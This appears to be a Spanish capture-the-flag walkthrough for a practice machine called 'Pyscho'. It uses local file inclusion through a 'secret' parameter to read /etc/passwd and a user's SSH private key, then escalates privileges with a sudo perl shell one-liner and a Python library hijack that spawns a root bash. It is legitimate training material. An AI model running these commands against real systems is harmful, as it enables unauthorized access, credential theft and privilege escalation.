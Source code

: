 <h1><b>Pyscho</b></h1>
<hr>

![Captura](https://github.com/user-attachments/assets/4290d8de-0c8d-42b3-9b46-cae794e60379)

<h2>Reconocimiento</h2>
<hr>
Realizamos un escaneo con nmap <br>


![nmap](https://github.com/user-attachments/assets/3d6ed8c0-60c4-47d1-876d-efe438932484)

Despues se suele realizar otro escaneo para ver la version y mas informacion que podamos sacar con los script pero para esta maquina no es necesario. Viendo el puerto 80 y 22 abierto procedemos a ingresar a la pagina web <br>

![pagina](https://github.com/user-attachments/assets/71ee3486-a379-4012-a71f-914940acd462)

Viendo la pagina ninguno de los botones funciona, y al final de esta pordemos observar:<br>

![image](https://github.com/user-attachments/assets/1d22b092-2a49-4f5a-b251-980d29c98a27)

Podemos observar que hay un ERROR al final de la pagina, esto podia indicar que algo se esta cargando mal, pero es toda la informacion que nos dan, para entender mejor como se este originando posiblemente esta falla necesitaremos encontrar la tecnologia en la que esta funcionando la pagina web:<br>

![image](https://github.com/user-attachments/assets/c5a59054-3ca3-4709-9e5c-9977be824c16)

![image](https://github.com/user-attachments/assets/bc2f061c-4341-4f48-a271-fff0b18eecd7)

whatweb no nos da mucha informacion pero con gobuster vemos index.php.

Entonces,que tenemos hasta el momento?
<ul>
  <li>La pagina esta cargando mal algo</li>
  <li>Esta usando php</li>
</ul>

Con esto podemos llegar a la conclusion que la pagina esta usando un include() en php en cual podemos derivarlo a un <a href="https://hacktricks.boitatech.com.br/pentesting-web/file-inclusion#file-inclusion" >Local File Inclusion </a>

No conocemos el parametro dentro de index.php, por lo tanto podemos proceder a fuzzear con la herramienta <a href="https://github.com/xmendez/wfuzz">wfuzz</a><br>

![image](https://github.com/user-attachments/assets/3cf9e007-1f79-43d1-b579-1cbcbe41ed8c)

Como podemos ver <b>secret</b> es el parametro que esta haciendo el include, primero veremos que usuarios hay en el sistema en /etc/cat

```bash
curl http://ip de la maquina/index.php?secret=/etc/passwd
```
![image](https://github.com/user-attachments/assets/f3820ae8-8ccb-46ee-aba3-6617ffb65217)
<br>
<h2>Foothold</h2>
<hr>

Podemos ver unas cuantas accounts, recordemos que la maquina cuenta con un servicio ssh, por lo tanto podemos realizar fuerza bruta a estas cuentas con hydra o buscar por las llaves. <br>

```bash
/home/luisillo/.ssh/id_rsa
/home/vaxei/.ssh/id_rsa
```
<br>
Probamos con las 2 y encotramos la llave para vaxei<br>

```bash
curl http://ip de la maquina/index.php?secret=/home/vaxei/.ssh/id_rsa
```
<br>

![image](https://github.com/user-attachments/assets/18b82ab6-82a0-4771-9ffb-0d3a714c0ae1)
<br>

Ahora entonces teniendo el ssh podriamos logearnos al menos que nos pidan una frase para ingresar.

>[!] Tip
>
>El archivo id_rsa debe tener permisos 600.
>
>Algunos id_rsa estan cifrados con un passphrase, que en ciertos casos necesitaras para que tu key sea aceptada<br>


![image](https://github.com/user-attachments/assets/919a1435-03f1-475a-a017-f15b279e44d6)

<br>
<h2>Lateral Movement</h2>
<hr>

De las primeras cosas que se suelen hacer en una maquina suele ser

```bash
sudo -l
id
Revisar /var/www/html
ps aux
etc
```

Con sudo -l nos saldra todos los permisos que podemos ejecutar como sudo si es que existe alguno, encontramos:
<br>

![image](https://github.com/user-attachments/assets/68746a92-227e-4048-b633-7394437417ff)

<br>

Ya que podemos ejecutar perl como luisillo, y al ser perl un lenguaje de programacion el proceso de escalado es sencillo con <a href="https://gtfobins.github.io/#">GTFOBins</a>


```bash
sudo -u luisillo perl -e 'exec "/bin/sh";'
```
<br>

![image](https://github.com/user-attachments/assets/cf2a6c26-88a3-4e52-b6f7-0c6ccd0094d2)

<br>
<h2>Escalada de Privilegios</h2>
<hr>

Igual que el anterior probramos sudo -l <br>

![image](https://github.com/user-attachments/assets/6f5712f2-6a00-45c4-8b06-edc0cb77f940)

<br>

Al parecer sudoers nos permite ejecutar el script mas no modificarlo.

```python
import subprocess
import os
import sys
import time

# F
def dummy_function(data):
    result = ""
    for char in data:
        result += char.upper() if char.islower() else char.lower()
    return result

# Código para ejecutar el script
os.system("echo Ojo Aqui")

# Simulación de procesamiento de datos
def data_processing():
    data = "This is some dummy data that needs to be processed."
    processed_data = dummy_function(data)
    print(f"Processed data: {processed_data}")

# Simulación de un cálculo inútil
def perform_useless_calculation():
    result = 0
    for i in range(1000000):
        result += i
    print(f"Useless calculation result: {result}")

def run_command():
    subprocess.run(['echo Hello!'], check=True)

def main():
    # Llamadas a funciones que no afectan el resultado final
    data_processing()
    perform_useless_calculation()
    
    # Comando real que se ejecuta
    run_command()

if __name__ == "__main__":
    main()
```

Viendo el codigo vemos que las librerias se estan insertando de forma insegura, es ahi donde nosotros haremos un <a href="https://deephacking.tech/path-hijacking-y-library-hijacking/">Library Hijacking</a>.<br>

Crearemos un archivo llamado subprocess.py de esta forma:

```python
import os
os.system("/bin/bash -p")
```
<br>
Ejecutamos de esta manera:
<br>

![image](https://github.com/user-attachments/assets/0623128d-d221-4f67-a670-a838b457fcb2)

<br>

y de esta manera finalizamos la maquina.

HackTheBox: billyelcalvo
